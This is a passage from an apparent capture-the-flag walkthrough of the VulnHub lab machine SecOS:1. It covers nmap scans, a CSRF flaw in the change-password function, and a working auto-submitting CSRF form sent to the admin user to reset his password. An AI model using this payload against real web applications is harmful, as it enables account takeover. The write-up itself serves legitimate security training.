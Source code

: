 # SECOS: 1

## Get VM IP :

```bash
root@kali: nmap -sn 192.168.127.0/24

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-09 04:16 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00061s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.136
Host is up (0.00040s latency).
MAC Address: 00:0C:29:4B:BB:8D (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00025s latency).
MAC Address: 00:50:56:F4:78:0D (VMware)
Nmap scan report for 192.168.127.128
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 15.58 seconds
```

The IP address is `192.168.127.136`, let's enumerate it.

## Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.136 -oN fulscan

Nmap scan report for 192.168.127.136
Host is up (0.0017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 9b:d9:32:f5:1d:19:88:d3:e7:af:f0:4e:21:76:7a:c8 (DSA)
|   2048 90:b0:3d:99:ed:5b:1b:e1:d4:e6:b5:dd:e9:70:89:f5 (RSA)
|   256 78:2a:d9:e3:63:83:24:dc:2a:d4:f6:4a:ac:2c:70:5a (ECDSA)
|_  256 a1:77:7b:f2:31:0b:81:ce:f2:09:47:06:e6:b0:80:fa (ED25519)
8081/tcp open  http    Node.js (Express middleware)
|_http-title: Secure Web App
MAC Address: 00:0C:29:4B:BB:8D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports `22` and `8081` is open, so lets begin navigating the site.

in the first page we see a message and menue above :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/42697f15-e96d-47f2-921d-062fa3897420)

fuzzing and directory brute forcing leads to nothing interesting except `/hint` directory which shows some hints :

![hint](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8400e744-51ef-4248-838f-4c6611211d41)

it is abvious that :
- admin will run the service locally on 127.0.0.1
- it says CSRF meaning we should look for it
- and the regex is for finding URL

gathering the above information we begin our work.

i signed up for an account : `myacc:123`

three new functionality appears after loggin in :

![afterlogin](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5a75cc52-f54e-4473-995e-d0106d3b9ffc)

if we check the `change password` we clearly see that is it vulnerable to CSRF attack because it meets 3 conditions :

- it is state changing
- it uses cookie for sessions
- it has no protection like CSRF token

keep it in mind we explore the `Messages` and `send message` functionality which we can send message to other users

and other users are listed in `users` menu :

![users](https://github.com/Git-K3rnel/VulnHub/assets/127470407/94484819-71ec-4ec1-82de-8f7342272aa3)

we see that user `spiderman` is administrator so we should some how try to reach his account.

since we have CSRF vulnerability and can send message to spiderman we create a CSRF POC and send a link to spiderman (remember that admin will run service locally)

```html
<html>
  <body>
    <form action="http://127.0.0.1:8081/change-password" method="POST">
      <input type="hidden" name="password" value="123" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

put the aboove code in `visit.html` file and host it with python webserver :

```bash
root@kali: python -m http.server 80
```

send the link in message to spiderman : 

![sendmessage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3155e9d5-b513-4e9c-9eaa-520166e05c8f)

after sending message and waiting afew seconds we expect that spiderman passwrod would change to `123`




